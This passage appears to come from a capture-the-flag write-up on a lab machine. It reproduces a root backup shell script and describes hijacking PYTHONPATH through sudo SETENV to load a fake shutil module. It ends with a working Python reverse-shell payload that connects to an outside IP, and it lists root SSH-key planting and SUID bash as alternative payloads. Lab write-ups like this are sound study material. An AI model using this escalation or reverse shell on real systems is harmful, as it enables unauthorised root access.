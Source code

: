 ```sh
}

backup_shadow()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Backing up /etc/shadow to /var/backups/shadow.bak..."
        /bin/cp /etc/shadow /var/backups/shadow.bak
        /bin/chown root:shadow /var/backups/shadow.bak
        /bin/chmod 600 /var/backups/shadow.bak
        echo "Done."
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_db()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running mysqldump in the background, it may take a while..."
        #/usr/bin/mysqldump -u root admirerdb > /srv/ftp/dump.sql &
        /usr/bin/mysqldump -u root admirerdb > /var/backups/dump.sql &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}
```

- `backup_web()` executes `/opt/scripts/backup.py` with `from shutil import make_archive`
- since `SETENV` allows to change environment variable -> change `PYTHONPATH` -> let python script to find my own created fake shutil package first -> inside shutil package, create a make_archive function with intended code
  - trigger a reverse shell (python code, execute bash command)
  - create /root/.ssh/authorized_keys and add local ssh pub key into it
  - cp a bash with root:root & suid

```console
waldo@admirer:/dev/shm$ cat shutil.py
#!/usr/bin/python3

def make_archive(dst, s, src):
        import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.54",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```
